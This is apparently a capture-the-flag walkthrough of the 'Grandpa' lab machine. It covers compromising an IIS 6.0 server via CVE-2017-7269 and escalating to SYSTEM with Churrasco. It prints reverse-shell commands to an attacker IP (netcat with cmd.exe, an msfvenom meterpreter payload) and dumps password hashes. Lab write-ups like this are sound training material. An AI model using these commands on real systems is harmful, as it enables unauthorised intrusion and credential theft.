

# Grandpa

## Machine Info



## Recon

### port

- 80 IIS
- webdav

```console
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-server-header: Microsoft-IIS/6.0
| http-methods:
|_  Potentially risky methods: TRACE COPY PROPFIND SEARCH LOCK UNLOCK DELETE PUT MOVE MKCOL PROPPATCH
|_http-title: Under Construction
| http-webdav-scan:
|   Server Date: Mon, 19 Feb 2024 03:36:14 GMT
|   WebDAV type: Unknown
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, COPY, PROPFIND, SEARCH, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|_  Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (90%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (90%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (88%), Microsoft Windows XP SP3 (88%), Microsoft Windows 2000 SP4 or Windows XP Professional SP1 (88%), Microsoft Windows 2003 SP2 (87%), Microsoft Windows XP (85%), Microsoft Windows Server 2003 SP1 - SP2 (85%), Microsoft Windows XP SP2 or SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

PORT   STATE SERVICE
80/tcp open  http
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-frontpage-login:
|   VULNERABLE:
|   Frontpage extension anonymous login
|     State: VULNERABLE
|       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
|
|     References:
|_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
| http-enum:
|   /postinfo.html: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
|   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
|   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
|   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
|   /_vti_bin/shtml.dll: Frontpage file or folder
|_  /_vti_bin/shtml.exe: Frontpage file or folder
```

No webdav upload:

```console
└─╼$ davtest -url http://10.129.95.233
********************************************************
 Testing DAV connection
OPEN            FAIL:   http://10.129.95.233    The URL "http://10.129.95.233/" is not DAV enabled or not accessible.
```

### web iis

Version: 6.0

Related CVE: [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269)

## Foothold

### CVE-2017-7269 IIS RCE

> [NVD - cve-2017-7269 (nist.gov)](https://nvd.nist.gov/vuln/detail/cve-2017-7269)
>
> [Microsoft CVE-2017-7269: WebDAV Remote Code Execution Vulnerability (rapid7.com)](https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-7269/)

**Exploit**:

```console
└─╼$ python2 exp.py 10.129.133.150 80 10.10.16.18 1234
PROPFIND / HTTP/1.1
Host: localhost
Content-Length: 1744
...
------------------------------------------------------------------------------

└─╼$ sudo rlwrap -cAr nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.133.150] 1030
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\network service

c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
```

## Privilege Escalation

### Enum

systeminfo

```console
Host Name:                 GRANPA
OS Name:                   Microsoft(R) Windows(R) Server 2003, Standard Edition
OS Version:                5.2.3790 Service Pack 2 Build 3790
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Uniprocessor Free
Registered Owner:          HTB
Registered Organization:   HTB
Product ID:                69712-296-0024942-44782
Original Install Date:     4/12/2017, 5:07:40 PM
System Up Time:            0 Days, 0 Hours, 6 Minutes, 20 Seconds
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x86 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              INTEL  - 6040000
Windows Directory:         C:\WINDOWS
System Directory:          C:\WINDOWS\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (GMT+02:00) Athens, Beirut, Istanbul, Minsk
Total Physical Memory:     1,023 MB
Available Physical Memory: 802 MB
Page File: Max Size:       2,470 MB
Page File: Available:      2,341 MB
Page File: In Use:         129 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: Q147222
Network Card(s):           N/A
```

**Privilege Enabled**: SeImpersonatePrivilege

**OS Info**: Windows Server 2003 x86

### Potato Priv Esca

GitHub Source Code: [Re4son/Churrasco](https://github.com/Re4son/Churrasco)

**POC**:

```console
C:\qwe>.\Churrasco.exe -d whoami
.\Churrasco.exe -d whoami
/churrasco/-->Current User: NETWORK SERVICE
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x730
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x728
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
nt authority\system
```

**Exploit** (without msf):

Make use of potato privilege-escalation file to trigger a reverse shell by nc32.exe uploaded before.

```console
C:\qwe>.\Churrasco.exe -d "nc32.exe 10.10.16.18 6666 -e cmd.exe"
.\Churrasco.exe -d "nc32.exe 10.10.16.18 6666 -e cmd.exe"
/churrasco/-->Current User: SYSTEM
/churrasco/-->Process is not running under NETWORK SERVICE account!
/churrasco/-->Getting NETWORK SERVICE token ...
/churrasco/-->Found NETWORK SERVICE token 0x6c0
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x670
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x668
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Use nc to connect and get a shell.

```
└─╼$ sudo rlwrap -cAr nc -lvnp 6666
listening on [any] 6666 ...
connect to [10.10.16.18] from (UNKNOWN) [10.129.133.150] 1047
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\WINDOWS\TEMP>whoami
whoami
nt authority\system
```

**Exploit** (msf):

Create a windows x86 meterpreter:

```console
└─╼$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.18 LPORT=6666 -f exe -o adminx86.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: adminx86.exe
```

Potato to execute meterpreter:

```console
C:\qwe>.\Churrasco.exe -d C:\qwe\adminx86.exe
.\Churrasco.exe -d C:\qwe\adminx86.exe
/churrasco/-->Current User: SYSTEM
/churrasco/-->Process is not running under NETWORK SERVICE account!
/churrasco/-->Getting NETWORK SERVICE token ...
/churrasco/-->Found NETWORK SERVICE token 0x6c0
/churrasco/-->Getting Rpcss PID ...
/churrasco/-->Found Rpcss PID: 668
/churrasco/-->Searching for Rpcss threads ...
/churrasco/-->Found Thread: 672
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 676
/churrasco/-->Thread not impersonating, looking for another thread...
/churrasco/-->Found Thread: 684
/churrasco/-->Thread impersonating, got NETWORK SERVICE Token: 0x674
/churrasco/-->Getting SYSTEM token from Rpcss Service...
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found NETWORK SERVICE Token
/churrasco/-->Found LOCAL SERVICE Token
/churrasco/-->Found SYSTEM token 0x66c
/churrasco/-->Running command with SYSTEM Token...
/churrasco/-->Done, command should have ran as SYSTEM!
```

Receive session and dump hashes:

```console
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.16.18:6666
[*] Sending stage (175686 bytes) to 10.129.133.150
[*] Meterpreter session 2 opened (10.10.16.18:6666 -> 10.129.133.150:1055) at 2024-02-19 13:40:02 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
Administrator:500:0a70918d669baeb307012642393148ab:34dec8a1db14cdde2a21967c3c997548:::
ASPNET:1007:3f71d62ec68a06a39721cb3f54f04a3b:edc0d5506804653f58964a2376bbd769:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Harry:1008:93c50499355883d1441208923e8628e6:031f5563e0ac4ba538e8ea325479740d:::
IUSR_GRANPA:1003:a274b4532c9ca5cdf684351fab962e86:6a981cb5e038b2d8b713743a50d89c88:::
IWAM_GRANPA:1004:95d112c4da2348b599183ac6b1d67840:a97f39734c21b3f6155ded7821d04d16:::
SUPPORT_388945a0:1001:aad3b435b51404eeaad3b435b51404ee:8ed3993efb4e6476e4f75caebeca93e6:::
```

## Exploit Chain

port scan -> old iis with vuln cve -> user shell -> SeImpersonatePrivilege priv & Potato PrivEsca with Churrasco -> system priv
